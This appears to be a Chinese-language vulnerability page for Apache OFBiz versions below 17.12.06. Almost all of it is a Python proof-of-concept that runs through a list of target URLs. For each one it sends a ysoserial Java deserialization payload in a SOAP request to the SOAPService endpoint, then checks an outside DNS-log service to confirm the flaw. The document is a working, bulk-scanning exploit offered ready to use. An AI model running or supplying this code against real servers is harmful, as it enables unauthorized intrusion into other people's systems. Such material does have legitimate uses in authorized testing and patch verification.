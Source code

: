 <languages />

漏洞影響
--------

Apache OFBiz \< 17.12.06

POC
---

    #coding:utf-8
    import binascii
    import os
    import requests
    import urllib3
    import uuid
    urllib3.disable_warnings()
    def main():
        id = requests.get("https://dns.xn--9tr.com/new_gen").text.split(".")[0]
        if(not os.path.exists("target.txt")):
            exit("put url in target.txt! ")
        if(not os.path.exists("ysoserial.jar")):
            exit("where is ysoserial.jar?")
        with open("target.txt")as f:
            urls = f.readlines()
        for url in urls:
            url = url.strip()
            uid = uuid.uuid1().hex
            cmd = "java -jar .\ysoserial.jar URLDNS http://{0}.{1}.y.dns1.tk > tmp".format(uid,id)
            r = os.popen(cmd)
            r.close()
            with open("tmp",'rb') as f:
                payload = binascii.hexlify(f.read())
            data = '''
            <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
                <soapenv:Header/>
                <soapenv:Body>
                <ser>
            <map-HashMap>
                <map-Entry>
                    <map-Key>
                        <cus-obj>{0}</cus-obj>
                    </map-Key>
                    <map-Value>
                        <std-String value="http://baidu.com"/>
                    </map-Value>
                </map-Entry>
            </map-HashMap>
                </ser>
                </soapenv:Body>
                </soapenv:Envelope>
                '''.format(payload.decode())
            headers = {
                "user-agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36"
            }
            url = url+"/webtools/control/SOAPService"
            try:
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
            except:
                pass
            dnslogresurl = "https://dns.xn--9tr.com/"+id
            if(uid in requests.get(dnslogresurl).text):
                print("[+] {0} 漏洞存在".format(url))
            else:
                print("[-] {0} 漏洞不存在".format(url))
        print("[+] 请到 {0} 查看结果".format(dnslogresurl))

    if __name__ == "__main__":
        main()